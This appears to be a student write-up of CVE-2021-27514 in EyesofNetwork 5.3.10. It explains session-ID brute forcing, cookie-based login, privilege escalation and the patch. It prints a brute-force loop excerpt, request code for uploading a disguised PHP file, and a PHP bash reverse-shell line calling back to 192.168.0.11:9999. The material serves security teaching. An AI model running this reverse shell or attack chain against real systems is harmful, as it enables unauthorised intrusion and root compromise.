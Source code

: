 # (CVE-2021-27514) **Authentication bypass with SessionID brute forcing**

![image](https://user-images.githubusercontent.com/71412992/112759163-c87b9580-8fbf-11eb-9c2b-63b40c097450.png)


## What software contains the vulnerability?
The vulnerability is found in version 5.3.10 of a program called EyesofNetwork.
## What is the vulnerability?
The program allows the sessionID to be brute-forced without an eventual timeout or cooldown to prevent excessive authentication attempts. To make brute-forcing even easier, the SessionID is ALWAYS between 8-10 numerical digits in length.

## What is EyesofNetwork?
Eyes of Network is a program designed to assist in the management of an information system. The software is designed to make use of the IT Infrastructure library process and pair it with a GUI in order to allow businesses to manage their networks, applications, commerce, data, updates, and monitor their business statistics.
## When was the exploit discovered?
**February 21st 2021**
## When was the exploit patched?
**March 12th 2021**
## How was it fixed?
The patch changed the table structure and changed the sessionID from 8-10 numerical digits to a higher number of alphanumeric char values.

![image](https://user-images.githubusercontent.com/71412992/112759186-e3e6a080-8fbf-11eb-9f1d-aadae4fcaa82.png)


## What is Brute-forcing?    
-   Brute forcing is when an attacker uses some sort of semi or fully automated program in order to try several entries until the desired value for the situation at hand is found. The method is most commonly used to obtain a password or in our case a sessionID

- Brute forcing can work in 3 main ways:
	- The program can try random values within parameters
	
	- The program can try to check values from a word list like what we all did in this very class if you used a brute force style program for assignment 4 like john the ripper
	- Or lastly or what we will demonstrate today they can follow a continuous pattern or increment value

## What is a sessionID?
-   A sessionID is a unique identifier assigned to a user upon login and represents the open session. The SessionID essentially tells the program that the system logged in is being used by the user associated with the ID.
    
-   The sessionId which was mentioned thought the presentation is the main point of concern for this vulnerability as it was too short with too low of a complexity
    
-   It is commonly accepted that most session IDs should be a minimum of 128 bits in length in order to combat the aforementioned brute force attacks.
#  How the Exploit Works
The Eyes of Network has a vulnerability in version 5.3.10 that has a session ID between 8 and 10 digits. This is done using a brute force method, meaning that you would start searching using session ID 10000000 and iterate up to 9999999999. This can be seen in this code: 

```python
    if rep.content.find(bytes) !=-1:
        a = int(a) + 1
        if int(a) == 99999999999:
            print("No Session_id available ... ")
            break
    else:
        print ("Yepa !")
        print("")
        print('\x1b[6;30;42m' + '[+] session_id FOUND ! '  + a + '\x1b[0m')
        print("")
        break
```
Where rep.content is the response from a GET request using the current iteration of the session ID. From here there are many different exploits available and we ran through the following ones to test these vulnerabilities: 

## Eyes of Network Access without Credentials 
Logging in using the obtained session ID is fairly straight forward. The following image is using the developer tools built into google chrome, you can navigate to the application tab and click on cookies:
![image](https://user-images.githubusercontent.com/71412992/112726764-838b2c80-8ef5-11eb-84cb-9cee09076cd6.png)

You will need to fill in all of these fields and put in the session ID that was obtained. The other fields are filled out based on the type of user the session ID belongs too. This would require trial and error or some inside knowledge of how Eyes of Network user information. 

Once the fields are filled out properly, you refresh the cookies and then the page and you will now be on the main dashboard page of the site with the same access as the user whos session ID you used. 

## Privilege Escalation 
This exploit involves allowing a restricted user to gain access to an admin account. Once a user has logged in, (This can be done using the session ID or with real credentials if the user has access to the site) this user will navigate to the profile tab on the eyes of network portal. Once here they have to option to change their password. The put in and password they would like. 

Next using a proxy interrupter, they interrupt the POST request to change the password:

![image](https://user-images.githubusercontent.com/71412992/112727172-8424c280-8ef7-11eb-8abf-9956d3f645e6.png)

Using the Admin session ID, user_name,user_id, group_id the user is able to change the password of the admin immediately and now has access to that account through regular log in. 

## Root Access to Eyes of Network OS (CentOS)
The last vulnerability that we explored with this exploit was gaining root access on the Eyes of Network operating system. This vulnerability could result in massive loss of data and destruction.  The following code will POST a .php file disguised as a .XML file to a directory on system. A GET request is then called on that file which will cause it to execute: 

```python
postreq=requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data, verify=False)
rep2=postreq

...

requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies, verify=False)

```
The php file will give a specified IP and Port interactive rights to the OS: 

```
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/192.168.0.11/9999 0>&1'");
```
Here we can see that the file has been successfully uploaded 

![image](https://user-images.githubusercontent.com/71412992/112731199-3fefed00-8f0c-11eb-8485-9e4b1914000c.png)

During the time the code is running you will listen on the port specified in the code (on the machine that with the specified IP). Once the GET request is run you will be logged in as a user. 
Moving to the /tmp directory you are then able to do a os.execute in order to escape interpreters and gain root access. This can all be seen here: 
![image](https://user-images.githubusercontent.com/71412992/112731497-f7393380-8f0d-11eb-932d-c97a413d1e6a.png)

It should be noted that the ITSM module needs to be installed on Eyes of Network for this portion of the explot to work as this is what allows XML upload. 


## References 

[1] Eyes of Network website https://www.eyesofnetwork.com/en

[2] Exploit Guide and walkthrough  https://ariane.agency/site/index.php/2021/02/23/quand-tu-trouves-une-0day-pendant-un-audit-d/

[3] Explot repository https://github.com/ArianeBlow/exploit-eyesofnetwork5.3.10/blob/main/PoC-BruteForceID-arbitraty-file-upload-RCE-PrivEsc.py

[4] Eyes of Network Community Discussion https://github.com/EyesOfNetworkCommunity/eonweb/issues/87

[5] Eyes of Network Eonweb repository for ITSM https://github.com/EyesOfNetworkCommunity/eonweb

[6] Linux preivileges https://guif.re/linuxeop

[7] Exploit Fix https://github.com/EyesOfNetworkCommunity/eonweb/commit/6d1be13ba36fedfc8cdcbe9c30e99d4e0ca7db1b?fbclid=IwAR0X3qOSDuq1Ke_uAHDjKriPMAfSDWhi4IU6QZWKTuo-Zj4R1sV_TG7hPTo#

[8] NIST Vulnerbility https://nvd.nist.gov/vuln/detail/CVE-2021-27514

[9] SessionID Length https://owasp.org/www-community/vulnerabilities/Insufficient_Session-ID_Length#:~:text=Description,brute%2Dforce%20session%20guessing%20attacks.


